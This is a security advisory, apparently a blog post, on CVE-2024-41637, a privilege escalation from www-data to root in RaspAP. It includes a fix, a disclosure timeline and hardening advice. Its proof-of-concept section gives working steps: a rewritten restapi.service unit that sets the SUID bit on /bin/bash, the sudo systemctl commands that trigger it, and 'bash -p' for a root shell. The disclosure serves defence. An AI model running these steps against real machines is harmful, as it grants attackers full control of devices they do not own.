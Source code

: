 ```yaml
---
layout: post
title: CVE-2024-41637  
subtitle: Local Privilege Escalation In RaspAP 
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


# CVE-2024-41637

```
Title: RaspAP Local Privilege Escalation
Risk: 9.9 Critical CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
Versions Affected: Before Versions 3.1.5
Identifier: CVE-2024-41637
Authors: Aaron Haymore
```

## Summary
RaspAP is an open-source project that simplifies the process of configuring and managing a wireless access point on a Raspberry Pi through a web interface. It is designed to transform a Raspberry Pi into a wireless hotspot or router. This tool is particularly popular in educational settings, IoT applications, and among homelab enthusiasts.

A local privilege escalation vulnerability has been identified in RaspAP. The `www-data` user has write access to the `restapi.service` file and also possesses `sudo` privileges to execute several critical commands without a password. This combination of permissions allows an attacker to modify the service to execute arbitrary code with root privileges, escalating their access from `www-data` to root.


## Proof of Concept (PoC) for Exploiting the Vulnerability

To demonstrate how this vulnerability can be exploited, follow these steps to gain root access by modifying and restarting a service with `sudo` privileges:

**Edit the Service Configuration:** Gain access as the `www-data` user and edit the `restapi.service` file located at `/lib/systemd/system/restapi.service`. Replace its contents with the following configuration:
```
[Unit]
Description=Set SUID bit on /bin/bash
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'echo "Service started. Use systemctl to stop the service to set the SUID bit on /bin/bash."'
ExecStop=/bin/bash -c 'chmod u+s /bin/bash'
Restart=always
RestartSec=1

[Install]
WantedBy=multi-user.target
```

This configuration will set the SUID bit on `/bin/bash` when the service stops, allowing the shell to run with root privileges.

**Reboot the Machine:** Run the following command to reboot the machine and reload the daemon:
`sudo /sbin/reboot`

**Start the Modified Service:** Once the machine has rebooted, start the modified `restapi.service` by running:
`sudo /bin/systemctl start restapi.service`


**Stop the Service:** To set the SUID bit, stop the service with the following command:
`sudo /bin/systemctl stop restapi.service`

**Gain Root Access:** Finally, execute the following command to get a root shell:
`/bin/bash -p`

By following these steps, an attacker can exploit the vulnerability to escalate privileges and gain root access. This demonstrates the critical nature of the issue and the importance of securing service configurations and restricting `sudo` access.

## FIX
To fix this issue, change the permissions on `/lib/systemd/system/restapi.service` to disallow www-data from modifying it.


## Report Timeline

```
07-16-2024: Vulnerability discovered and reported to security@raspap.com.
07-18-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment.
07-23-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment.
07-26-2024: No response from security@raspap.com, follow up email sent asking for acknowledgment and notificaion of public disclosure.
07-27-2024: Public Disclosure
```

## Conclusion
This vulnerability in RaspAP highlights the critical importance of correctly configuring access controls and user privileges within a system. Allowing a low-privilege user like `www-data` to modify service files and use `sudo` without proper restrictions can lead to severe security breaches, including privilege escalation and arbitrary code execution.

To prevent such vulnerabilities, it is essential to adhere to the following best practices for access control:

- **Implement the Principle of Least Privilege:** Ensure that users only have the minimal level of access necessary to perform their duties. Restrict write permissions to service files to only those who absolutely need it.
- **Audit and Restrict `sudo` Access:** Regularly review `sudoers` configurations to ensure that only trusted users have the ability to execute commands with elevated privileges. Avoid broad `NOPASSWD` configurations that can be exploited.
- **Secure Service Configurations:** Ensure that critical service configurations and scripts are protected from unauthorized modifications. Use appropriate file permissions and ownership settings.
- **Monitoring and Logging:** Implement comprehensive logging and monitoring to detect and alert on unauthorized changes or suspicious activities. Regularly review logs to catch potential exploitation attempts early.

By focusing on correct access controls and ensuring that permissions are appropriately configured, organizations can significantly reduce the risk of such vulnerabilities and maintain a more secure environment. This case underscores the importance of diligently managing user privileges and access to critical system components.

